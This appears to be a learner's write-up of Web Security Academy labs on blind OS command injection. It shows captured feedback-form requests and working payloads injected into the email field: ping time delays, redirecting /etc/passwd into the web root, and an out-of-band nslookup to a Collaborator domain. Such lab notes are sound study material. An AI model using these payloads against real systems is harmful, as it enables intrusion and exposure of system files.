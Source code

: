 # Blind OS command injection vulnerabilities

Same like blind sql injection, blind OS command injection arises when an application is vulnerable to  OS command injection without returning the relevant result from the payload.

But it's still exploitable and below is the following techniques to detect a blind OS command injection vulnerabilities:

## Lab #2: Blind OS command injection with time delays

Sample request
```
POST /feedback/submit HTTP/1.1
Host: ac031f731f33252480f62106001a00b5.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://ac031f731f33252480f62106001a00b5.web-security-academy.net
Connection: close
Referer: https://ac031f731f33252480f62106001a00b5.web-security-academy.net/feedback
Cookie: session=ev24V9G6Ba98S5KtiQLZeenNgdSlrNVO

csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com&subject=This+website+is+vulnerable+by+design&message=so
```

Sample auto mailing:
```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
``` 

Detect using time-delay
```
||ping+-c10+127.0.0.1||
;ping+-c10+127.0.0.1;
```

Modified body parameter
```
csrf=BHYqUKMi41wmqBX8A15sLq4v7vOHfU53&name=fahmi&email=fahmi%40mail.com;ping+-c10+127.0.0.1;&subject=This+website+is+vulnerable+by+design&message=so
```

Injection on auto mailing:
```
mail -s "This website is vulnerable by design" -aFrom:NotValidMail||ping -c 10 127.0.0.1|| feedback@vulnerable-website.com
``` 

Note:  
`A ; B`, run A then run B   
`A || B`, if A failed, run B  
`A && B`, run B if a success  
`A & B`, run A in background, run B in foreground

## Lab #3: Blind OS command injection with output redirection

Sample request:
```
POST /feedback/submit HTTP/1.1
Host: ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net
Connection: close
Referer: https://ac431f7a1e758c6c80c71c6a00a70078.web-security-academy.net/feedback
Cookie: session=58KoRxpoSbGR6XrHJBq7E3In48CGQW6t

csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com&subject=website+is+vulnerable&message=test
```

Modified body parameter:
```
csrf=b70JaGDFLtHCutnEPjIAHqsi51VinWlF&name=fahmi&email=fahmi%40mail.com||cat+/etc/passwd+>+/var/www/images/passwd||&subject=website+is+vulnerable&message=test
```

Possible location:
```
https://blabla/image?filename=15.jpg
``` 
Then it would be
```
https://blabla/image?filename=passwd
```
But because the content-type is set to image/jpeg, the browser will try to render `passwd` to an image, therefore we'll see an error in the browser.

We need BurpSuite to intercept the request as well as its response.

![2f66306da4784b1eb2c629ac1012d95c.png](./_resources/2f66306da4784b1eb2c629ac1012d95c.png)

## Lab #4: Blind OS command injection with out-of-band interaction

Note:
If the system is asynchronous, it has no effect to the response timing. However, beside file write redirect, we could also detect the blind os command injection by redirecting the output to outer domain (out-of-band)

> An out-of-band means to reflect the response of payload to public server/system that we control  
> In short, we making it to interact with outer system that we monitored.


Steps:

Since labs only allows burp domain, and burp collaborator only available in the Pro version, I couldn't monitor the output.

Payload
```
email=||nslookup+burpcollaborator.net||
```

![4bf806a14fe5a426441fe8d0f39f2fed.png](./_resources/6a51eeec4d6e43ce86c45adfa0274c63.png)